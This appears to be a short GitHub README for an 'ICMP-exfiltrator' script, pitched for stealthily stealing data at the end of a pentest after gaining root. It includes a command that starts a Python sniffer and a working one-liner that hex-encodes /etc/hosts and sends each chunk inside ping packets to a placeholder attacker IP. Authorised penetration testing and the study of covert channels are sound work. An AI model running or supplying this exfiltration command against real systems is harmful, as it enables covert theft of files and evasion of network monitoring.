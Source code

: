 # ICMP-exfiltrator
A simple script for data exfiltration using ICMP packets.

This script will be useful at the end of a pentest to steal data when otherwise we could not.After getting root we could use this script to exfiltrate data to our attacker's server stealthily via ICMP packets.

# Screenshots

We let our sniffer listen.

``` python
python3 icmp_exfiltration.py 2> /dev/null
```

```bash
xxd -p -c 4 /etc/hosts | while read line; do ping -c 1 -p $line <attackers_IP_address> ; done
```
